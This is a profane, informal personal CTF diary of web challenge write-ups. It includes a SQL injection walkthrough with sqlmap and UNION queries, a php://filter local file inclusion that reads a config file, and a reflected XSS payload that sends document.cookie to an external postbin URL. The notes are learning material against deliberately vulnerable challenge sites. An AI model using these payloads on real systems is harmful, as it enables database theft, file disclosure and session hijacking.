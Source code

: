 #view it in code mode for a smoother exp =)
warning , quite the extreme language usage forward as i mainly document challneges that i get stuck on , therefore a lil venting after challenge is quite essential 
This is more for self notes for me to refer back in the future if i by chance get somewhat stuck 




# ---  n.d
alright its 3 50 in the fcuking morning idk what better to do than ctf instad of sleeping, writeup time....

curl -X POST -d "username=admin&pass -d=71up-dnlkadsf" http://165.227.106.113/post.php
this is the challange link btw , you need to login to see -> https://ctflearn.com/challenge/114 

welp apparenntly this command is quite useful , yeah... 
curl or client URL can help you get the webpage from terminal (as if you dont have a browser....)
it also has parameters you can use to send data for example , nice right ? (as if a browser couldnt do it)
according to the curl -h , the -d parameter allows you to send data ain a form of http post request . honestly have no idea what the -X means ahah
ok i lied , the first part of the command curl -X POST is to specify the method using the -X parameter and POST being the method in this case(other methods such as GET)
the -d basically as mentioned above allows you to send/POST data and specifies the data you want to send 

ive completed my first writeup?
i like to call them notes or better known as references , writeup too formal for this bullshit 
for now this thing is named the bloodflame archive cuz i have no idea what to name it while also listening to ERB (would have been an amazing pun if i was writting thsi on ARCH instaed of ubuntu...)
y'knwo what , maybe this can be known better as my CTF diary since i yap so much bs here ahhahaa
aaaaaaaaany ways since i last formatted pc , i lost all my progress(diary) on SKR, gotta redo it here , for now this is all i have , im a poor man , poor of information 
its 4 01 , my sleep is fked, i havent finished my dailies , im going to sleep , need to contol the ctf addiction !!!


# --- n.d
I HAVE TO SAY , NO WEED OR GACHA PULLS SHOULD BE ABLE TO BEAT THE HIGH I JUST FELT SOLVING MY FIRST HARD CHALLANGE 
alright so heres the story and challenge link : https://ctflearn.com/challenge/149
so yeah this gonna be a long story , future me or whoever i share this with , get ready

the website has a simple ui that allows you to search for dogs by typing in an id (no checking btw)
after some test , there are 3 dogs in the database each with id 1-3
When each of these numbers are types in , the page displays the dog name , breed and color 

1st attempt starts with a basic sql injection from -> https://www.w3schools.com/sql/sql_injection.asp
The page then returned the data of all 3 dogs. 
This proves the site is inject-able and vulnerable.
Next step , find the damn flag...

In the challege tittle , it mentions union is a good command.
In sql , union basicaly uunites things, allowing the user to combinee the output of 2 select commands together provided they are of same datatype. 
Both select command also need to select the same command. 
Well, guess what i did , yes i tried to guess the style of the query like an idiot. 
1st guess : select * from dogs where id = 'userinput'
with this many attempts i took and none succeeded , not even outputting the 1st dog's name. 

After a few hours of searching , i came across something about information.schema.tables. 
OH , after 1 semester of sql , i didnt even know this table existed....
In fact , many more tables not only this one....
that aside, i tried to enter some strings like 

' UNION NULL,NULL,NULL,NULL -- 
as i figured that the table would only have a maximum of 4 columns.

' UNION SELECT * FROM information.schema.tables -- 
as i thought i might just get everything from that table, unfortunately no...

1 or 2 days later (i forgot , memory got hazy from all the sqli)
i looked up union attacks and even tried to intercept the request with burpsuite , no luck
Then i re-read the comments and saw a tool named sqlmap which many claimned to be the easiest way to do it. 
I looked up the github , and installed the tool on my ubuntu. 

At first i ran it  - python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1"
not much return , following the error messages , i slowly finetune the command into this thing: 
python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1" --technique=U --random-agent --dbms=mysql --tamper=space2comment

cant explain all but i know what some do
- url specifies the url to attack
- technique specifies the technique to use in this case being a union attack
- dbms specifies the database type which sqlmap has already found out being mysql
- i have absolutely no idea what the other 2 do but here is the explanation -> https://github.com/sqlmapproject/sqlmap/wiki/Usage

finally the program returned 3 files, a log file , target file and lastly a file named 'session.sqlite'
unfortunatly the session file could not be opened while both text files were repeated information showed in the terminal 
but it DID give something useful, which was the payload used to attack:

Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL-- -


i then used the payload to craete this attempt: 
1 UNION ALL SELECT NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL,NULL-- -
it worked but only returned the decryped hex value in the input. 
references for this attempt : https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/ 

Next attempt :
1 UNION ALL SELECT TABLE_NAME,TABLE_TYPE,TABLE_CATALOG,TABLE_SCHEMA FROM information_schema.tables-- -
the page returned many tables but one felt off, it was w0w_y0u_f0und_m3
sadly it was not the flag...
references for this try : https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.htmlc , https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/

3rd attempt: 
1 UNION ALL SELECT TABLE_NAME,COLUMN_NAME,TABLE_SCHEMA,TABLE_CATALOG FROM information_schema.columns-- -
this time the page returned many things , including a column 'f0und_m3' from the table 'w0w_y0u_f0und_m3'


last attempt : 
1 UNION ALL SELECT NULL,f0und_m3,NULL,NULL FROM w0w_y0u_f0und_m3-- -
it returned the information of the first dog and the flag 

alright thats a grandfather level story , time to rest , enough games today 



# --- n.d
OK next one , this one not fully solve by me thanks to a community fella in their dc server , still gotta record this thing down for fun
This ctf is a indi one called 3108 , merdeka themed
challenge link (not sure how long it will be up) = https://b1bf68f7fd.bahterasiber.my/

When you open the link , you immediately get blasted by music which sets you in merdeka mood. THere are 3 songs, keranamu Malaysia , tanggal31 and Jalur Gemilang
there are 3 hyeriinks which will each display the lyrics of one of the songs and an audio player to play the song and sing along. 

starting of all web challenge it to look at its source code, it was short , very short
the entire script was :
    function setPage(page) {
        const encodedPage = btoa(page);
        document.cookie = "page=" + encodedPage + ";path=/";
        location.reload();
    }

so i tried to do path traversal first realizing i was dumb

then i followed the 5 line script which by the way wil trigger everytime one of the hyperlinks are clicked and set the "page" variable to the respective page
then it encodes the page in base 64 and sets it into the cookie named page
finally, it reloads the page 

i tried to use burpsuite for at least 5 hours trying different cookies and paths 
i even got access to etc/passwd and /bin/bash
that aside i also tried to extract information from the audio and even the BACKGROUND IMAGE using binwalk and stings, no luck.

finally after so many tries , time was up and i asked 
to apparently i was right but wrong, i used php wrapper but not on the config , only on the index file 


yeah thats it , you use the wrapper on the config file : php://filter/convert.base64-encode/resource=../../../var/www/html/config.php


the website returned : PD9waHAKJGhvc3QgPSAibG9jYWxob3N0IjsKJHVzZXJuYW1lID0gImN1YmFhbiBtZW5nZWhhY2sga2EgaXR1IjsKJHBhc3N3b3JkID0gIjMxMDh7bTRyMV9rMXQ0X3c0cmc0X24zZzRyNH0iOwokZGF0YWJhc2UgPSAiZmxhZyI7CgokY29ubiA9IG5ldyBteXNxbGkoJGhvc3QsICR1c2VybmFtZSwgJHBhc3N3b3JkLCAkZGF0YWJhc2UpOwoKaWYgKCRjb25uLT5jb25uZWN0X2Vycm9yKSB7CiAgICBkaWUoIkNvbm5lY3Rpb24gZmFpbGVkOiAiIC4gJGNvbm4tPmNvbm5lY3RfZXJyb3IpOwp9CgplY2hvICJDb25uZWN0ZWQgc3VjY2Vzc2Z1bGx5IjsKPz4K


when decoded we get the php file and BOOM its there : 
<?php
$host = "localhost";
$username = "cubaan mengehack ka itu";
$password = "3108{m4r1_k1t4_w4rg4_n3g4r4}";
$database = "flag";

$conn = new mysqli($host, $username, $password, $database);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

echo "Connected successfully";
?>

# --- sep26-27 2024
i spent wayyyyyyyyyyyyyyyyyyyyyyyy too much time on this bs
this one is a challenge from SKR -> https://skrctf.me/challenges#XSS-GPT 
had to literally go through piles of writeups just to get to the flag 
references (totally not in APA)
https://ctftime.org/writeup/15817 
https://portswigger.net/web-security/cross-site-scripting/reflected#reflected-xss-in-different-contexts
https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Cross-Site-Scripting-XSS-Payloads.txt

special thankyou to postbin -> https://www.postb.in/

challenge starts of with a white ass site with a chat box and a report admin button
after reading the html, you are somewhat required to have an API key (which i have 0 idea on wtf it is) 
so i tried editing the parameter as one of the hints say and spammed random things into the apiKey parameter in the site, none worked as expected....
then i tried the classic xss to trigger alert and it worked, as in the entire site bugged out with a wall of error messages.

After some revisiting of the js, i had to change to payload to </script><script>alert("ayane")</script><script> for it to successfully trigger the xss
which then also completely broke the site
then i figured by clicking the report admin button (while the site is not broken) would send a post request to a page called reportAdmin with the api key parameter

after being stuck on the same thing for quite a while (2 hrs) i went to check out some wwriteups 
thats where i learnet that i can use postbin/webhook in combination with XSS to capture and send data to a given site 

after aa lot of spamming different payloads , this one worked (url encoded)

also first time making a code block here, yay
```
</script><script>var i=new Image;i.src="https://www.postb.in/1727372628601-9432018648367/?c="+document.cookie;</script><script>
```

then i replaced the kep parameter in the post request to the reportAdmin page and checked my postbin site , and there was the flag 
SKR{R3flec73D_1n_API_k3y_f4ae0d}

time to learn more on hwo this backend stuf and API work
anyways ending this on a good note, heres a banger i listened to while scritching my head -> https://youtu.be/DZTXaq23534

quick take away to self, please please please inspect the code carefully and if possible in visual studio code so you dont miss any pages or fucntion....










